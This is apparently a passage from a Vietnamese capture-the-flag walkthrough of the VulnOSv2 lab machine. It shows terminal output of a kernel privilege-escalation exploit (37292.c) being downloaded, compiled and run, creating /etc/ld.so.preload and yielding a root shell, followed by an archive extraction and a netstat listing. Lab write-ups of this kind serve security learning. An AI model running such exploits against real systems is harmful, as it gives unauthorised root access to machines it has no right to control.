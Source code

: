 HTTP request sent, awaiting response... 200 OK

Length: 4968 (4.9K) [text/x-csrc]

Saving to: ‘37292.c’

100%[==========================================================================>] 4,968       --.-K/s   in 0.001s

2022-08-04 08:27:16 (4.85 MB/s) - ‘37292.c’ saved [4968/4968]

$ ls

37292.c  post.tar.gz

$ gcc 37292.c

$ ls

37292.c  a.out  post.tar.gz

$ a.out

-sh: 9: a.out: not found

$ ./a.out

spawning threads

mount #1

mount #2

child threads done

/etc/ld.so.preload created

creating shared library

# whoami

root

Chiếm quyền user khác khi chưa có root

root@VulnOSv2:/home/webmin# tar xzvf post.tar.gz

root@VulnOSv2:/home/webmin# netstat -tulpn

Active Internet connections (only servers)

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name

tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1029/mysqld

tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      1151/ngircd

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      968/sshd

tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      1051/postgres

tcp6       0      0 :::6667                 :::*                    LISTEN      1151/ngircd
